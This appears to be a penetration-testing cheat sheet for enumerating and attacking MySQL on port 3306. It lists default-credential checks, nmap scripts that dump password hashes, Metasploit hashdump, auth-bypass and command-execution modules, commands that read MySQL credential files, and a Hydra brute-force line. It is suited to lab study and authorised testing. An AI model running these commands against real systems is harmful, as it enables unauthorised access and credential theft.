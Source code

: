 # 3306 (MySQL)

## Enumeration

### Checks

* [ ] Try default credentials "root":""
* [ ] Brute force credentials
* [ ] Check database content for new passwords
* [ ] Check version for exploits

### Connection

#### Local

```bash

mysql -u root # Connect to root without password
mysql -u root -p # A password will be asked (check someone)
```

#### Remote

```bash
mysql --host=<IP> -u root -p 
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root@localhost
```

### nmap

```bash
kali@kali:~/oscp/labs/10.11.1.8$ nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
nmap -sV -Pn --script=mysql-audit.nse,mysql-brute.nse,mysql-databases.nse,mysql-dump-hashes.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-query.nse,mysql-users.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse -p 3306 -o 3306_nmap_mysql <IP>
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
```

### Metasploit

```bash
msf> use auxiliary/scanner/mysql/mysql_version
msf> use uxiliary/scanner/mysql/mysql_authbypass_hashdump
msf> use auxiliary/scanner/mysql/mysql_hashdump #Creds
msf> use auxiliary/admin/mysql/mysql_enum #Creds
msf> use auxiliary/scanner/mysql/mysql_schemadump #Creds 
msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds
```

### Extract Credentials

```bash
cat /etc/mysql/debian.cnf
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

## Brute Force

### Hydra

```bash
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mysql -vV -I -u
```

